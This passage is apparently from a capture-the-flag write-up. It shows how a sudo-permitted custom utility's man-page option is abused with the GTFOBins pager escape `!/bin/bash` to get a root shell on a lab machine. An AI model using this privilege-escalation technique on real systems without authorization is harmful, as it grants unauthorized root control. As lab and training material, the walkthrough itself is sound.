 `sudo /home/anansi/bin/anansi_util proclist` => looks like `top`

![anansi_util proclist](/img/anansi_util_proclist.png)

`sudo /home/anansi/bin/anansi_util manual` => looks like `man`

![anansi_util manual](/img/anansi_util_manual.png)

[GTFOBins](https://gtfobins.github.io/gtfobins/man/)

```Bash
sudo /home/anansi/bin/anansi_util manual man
!/bin/bash
```

![got root](/img/got_root.png)


